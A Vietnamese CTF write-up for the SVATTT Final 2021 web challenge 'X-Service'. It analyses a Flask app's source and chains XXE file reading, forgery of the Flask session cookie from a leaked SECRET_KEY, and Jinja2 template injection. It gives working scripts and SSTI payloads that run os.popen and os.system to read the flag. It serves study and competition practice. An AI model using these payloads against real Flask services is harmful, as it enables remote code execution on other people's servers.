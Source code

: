 ```yaml
---
layout: post
title: "WRITEUP SVATTT FINAL 2021: WEB"
categories: CTF
toc: true
---
```

Hé lô mọi người. Ở vòng loại của svattt vừa rồi thì mình không được vô chung kết để chinh chiến vòng đấu hấp dẫn này. Hôm nay là ngày diễn ra chung kết svattt, mình chỉ biết ngồi nhìn các đội chơi thấy hơi buồn 1 chút trong lòng :( , nhưng nhớ đến câu của một người anh nào đó "Không có gì phải buồn hết em, mình có thực lực thua mới buồn không có thực lực thì làm sao phải buồn" nên vì vậy sau khi end giải mình đã xin 1 vài challeng web để làm, tu luyện để hi vọng năm sau có cơ hội vô chung kết. Thôi không luyên thuyên nữa, dưới đây là một số bài mà mình solved được, mình muốn ghi lại vì thấy nó hay cũng như học được nhiều thứ từ những challenge này. Bài viết của niuu baii nên có sai sót thì mọi người góp ý nhé ^^

## Challenge X-Service
Source code và payload mình để ở đây nha [SRC](https://github.com/DauHoangTai/WriteupCTF/tree/master/svattt/2021/final/X-Service)

Bài này thuộc trong AD (Deamon web 01), mình thấy thì bài này khá nhiều đội solved. Bây giờ thì cùng đi phân tích source code mà author cung cấp nhé.

Bài này được author code bằng `python`. Chúng ta được cung cấp 1 file `app.py` và mình sẽ tách từng phần ra phân tích:

```py
import random
import os
from xlib import blacklist as bl, utils as xutils
from flask import Flask, render_template, render_template_string, url_for, redirect, session, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)
app.config['SECRET_KEY'] = "###CENSORED###"
socketio = SocketIO(app)
```
- Đoạn này thì chỉ có import 1 số lib và setup flask, `SECRET_KEY` được giấu và hiện tại chúng ta không biết nó là gì.

```py
@app.route('/')
def index():
	if 'username' in session:
		return redirect(url_for('dashboard'))
	return redirect(url_for('login'))


@app.route('/dashboard')
def dashboard():
	if 'username' in session:
		return render_template('dashboard.html', name=session['username'])
	return redirect(url_for('login'))
```
- Route `/`: kiểm tra `username` có trong `session` thì sẽ redirect cho chúng ta tới trang `/dashboard`, nếu không thì sẽ redirect tới trang `/login`.
- Router `/dashboard`: kiểm tra `username` có trong `session` thì render ra `dashboard.html` với `name=session['username']`, nếu không thì redirect về `login`

```py
@app.route('/login', methods = ['GET', 'POST'])
def login():
	if 'username' in session:
		redirect(url_for('/dashboard'))
	else:
		if request.method == 'POST':
			username, password, guest = '', '', ''
			try:
				username = request.form["username"]
				password = request.form["password"]
			except:
				pass

			try:
				guest = request.form["guest"]
			except:
				pass

			if len(username)>0 and len(password) > 0:
				res = xutils.login_check(username, password)
				if len(res)>0:
					session['is_admin'] = 0
					session['username'] = username
			elif guest != None and guest == "true":
				session['is_admin'] = 0
				session['username'] = 'guest%s'%(random.randrange(1000000, 9999999))
			return redirect(url_for('dashboard'))
		return render_template('login.html')
```
- Route `/login`: 
	- Kiểm tra `username` có trong session thì redirect tới `/dashboard`. Nếu không thì vô `else`, kiểm tra nếu request bằng POST method, ở đây chúng ta có 3 tham số để truyền vào `username, password, guest`. Kiểm tra len của `username` và `password` > 0 thì đưa 2 tham số này vô func `login_check` (func này được author code ở trong file `utils.py`). Có response thì set session `is_admin = 0` và `username=username` (username mình login vào).
	- `guest=true` thì sẽ không check login, cũng set session `is_admin=0` và `username=guest4955629` (4955629 là random từ khoảng 1000000 -> 9999999, mỗi lần login guest thì số sẽ khác nhau).
	- Cuối cùng redirect tới `dashboard`.

```py
@app.route('/about')
def about():
	return render_template('about.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect(url_for('login'))

@app.route('/manage')
def manage():
	try:
		if session['is_admin'] == 1:
			black_list = bl.BLACKLIST
			for c in black_list:
				usn = session['username'].replace(c, "")
			if xutils.check_user(usn) == True:
				return render_template_string('Hello ' + usn + ', under development!')
			else:
				return render_template_string(usn + " not available")
		else:
			return redirect(url_for('dashboard'))
	except:
		return redirect(url_for('login'))
```
- Route `/about`: render template `about.html`
- Route `/logout`: Xóa session và redirect về login.
- Route `/manage`: 
	- Func này quan trọng đến việc exploit cho bài. Check session `is_admin=1`, tiếp theo check session `username` nếu chứa char nằm trong `BLACKLIST` (được tạo trong trong file `blacklist.py`) thì sẽ bị replace thành null.
	- Check `usn` (session username) bằng func `check_user` được code trong file `utils.py`. Dù kết quả của func này trả về là gì thì vẫn `render_template_string` 1 đoạn string + `usn` (session username) => có thể SSTI ở đây.

```py
@socketio.on('message')
def handle_message(xpath, xml):
	if 'username' in session:
		if len(xpath) != 0 and len(xml) != 0 and "&" not in xml:
			try:
				res = ''
				root = ElementTree.fromstring(xml.strip())
				ElementInclude.include(root)
				for elem in root.findall(xpath):
					if elem.text != "":
						res += elem.text + ", "
				emit('result', res[:-2])
			except Exception as e:
				emit('result', 'Nani?')
		else:
			emit('result', 'Nani?')
```
- Func `handle_message` được gửi bằng socket. Check len 2 tham số mà chúng ta đưa vào `xpath`, `xml` phải lớn 0 và không được có `&` trong `xml` (chặn 1 số payload xxe cơ bản có thể retrieve files).
- Đoạn code còn lại là xử lí xml bằng lib [xml.etree.ElementTree](https://docs.python.org/3/library/xml.etree.elementtree.html)
- Cuối cùng show ra những `element` trùng với `xpath` mà ta đưa vào.

### IDEA
- Chúng ta cần có `session['is_admin']=1` để vô được route `/manage` và từ đó có thể rce và get flag. Nhưng ở trong code không có chỗ nào mà set session `is_admin=1`.
- Sử dụng login by guess để có thể vô `dashboard`, sau đó chúng ta `XXE injection` để đọc file `app.py` => lấy được `SECRET_KEY` => fake session `is_admin=1` và `username` là payload ssti => thay vô cookie header => như vậy là có thể ssti bình thường.
- Sau một thời gian đọc document về lib `xml.etree.ElementTree` thì thấy được 1 payload này có vẻ khả thi và không sử dụng `&` [here](https://docs.python.org/3/library/xml.etree.elementtree.html#id3)
- Mình có thử payload sử dụng file `dtd` payload này không sài `&` nhưng không có request tới server của mình.

### Payload
File `app.py`
```py
from flask import Flask, session, request

app = Flask(__name__)
app.config['SECRET_KEY'] = '476345fdc597d6cb6dd68ae949b2694a'

@app.route('/')
def index():
        session["is_admin"] = 1
        session["username"] = """{%print(lipsum|attr("__globals__"))|attr("__getitem__")("os")|attr("popen")("/readflag")|attr("read")()%}"""
        return 'taidh'
    
if __name__ == '__main__':
        app.run()

```
Chạy file này với command `python3 app.py`

File `payload.py`

```py
import requests
import string
import sys


if len(sys.argv) < 2:
	print("[+] python3 poc.py <url>")
	exit()

URL = sys.argv[1]

def getSession():
	r = requests.get('http://127.0.0.1:5000')
	session = r.cookies['session']
	# print(session)
	return session

def getFlag():
	cookies = {"session":getSession()}
	r = requests.get(url=URL+'/manage',cookies=cookies)
	print(r.text)

if __name__ == "__main__":
	getFlag()
```
Chạy file này với command `python3 payload.py http://34.124.209.122:1337/`. Nếu có source deploy trên local thì thay bằng url local
![image](https://user-images.githubusercontent.com/54855855/141679163-21adcb12-0fbc-46f6-b811-a70fc86142d2.png)
BONUS: Tối hôm đó mình solved, có vẻ như chall vẫn đang được patch bằng cách replace thêm 1 số kí tự như `["{{","/", "*", "'", '"', "o","r"]`. Vì vậy mình không thể solved bằng payload trên mà mình đã thay bằng:
```
{{config.__class__.__init__.__globals__['os'].system('/?eadFlag > /tmp/taidh')}}
```
Cuối cùng mình sử dụng `xml` lúc đầu để đọc `environ` để đọc flag bằng đường dẫn `/tmp/taidh`. Nhưng mình không hiểu tại sao vẫn có thể sài `"` `'` và `{{` bình thường mặc dù nó nằm trong `blacklist`. Chỉ có mỗi `r` bị replace :D

# UPDATING CÁC CHALLENG CÒN LẠI